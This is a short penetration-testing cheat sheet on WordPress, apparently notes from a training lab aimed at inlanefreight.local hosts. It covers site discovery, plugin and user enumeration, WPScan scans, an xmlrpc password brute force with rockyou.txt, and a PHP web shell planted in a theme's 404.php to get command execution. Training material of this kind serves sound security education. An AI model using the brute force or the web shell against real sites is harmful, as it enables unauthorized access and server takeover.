 # Wordpress

## Overview

## Discovery

A quick way to identify a WordPress site is by browsing to the /robots.txt file. A typical robots.txt on a WordPress installation may look like:

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://inlanefreight.local/wp-sitemap.xml
```

Another quick way to identify a WordPress site is by looking at the page source.

```shell
curl -s http://blog.inlanefreight.local | grep WordPress
```

## Enumeration

### Themes and Plugins

Find the themes:

```shell
curl -s http://blog.inlanefreight.local/ | grep themes
```

Find the plugins:

```shell
curl -s http://blog.inlanefreight.local/ | grep plugins
```

For the plugins found we can try to get there readme.txt to get their version:

```
http://blog.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt
```

Check for exploits in both themes and plugins used.

### Users

An invalid username returns that the user was not found. So we can do user enumeration this way.

## Enumeration - Automation

### WPScan

```shell
sudo wpscan -e ap -t 500 --url http://ir.inlanefreight.loca
```

```shell
sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>
```

We can obtain an API token from WPVulnDB, which is used by WPScan to scan for PoC and reports

## Attacks

### Login Bruteforce

```shell
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

### RCE

As admin, edit a used theme 404.php page, with:

```php
system($_GET[0]);
```

Then do

```shell
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```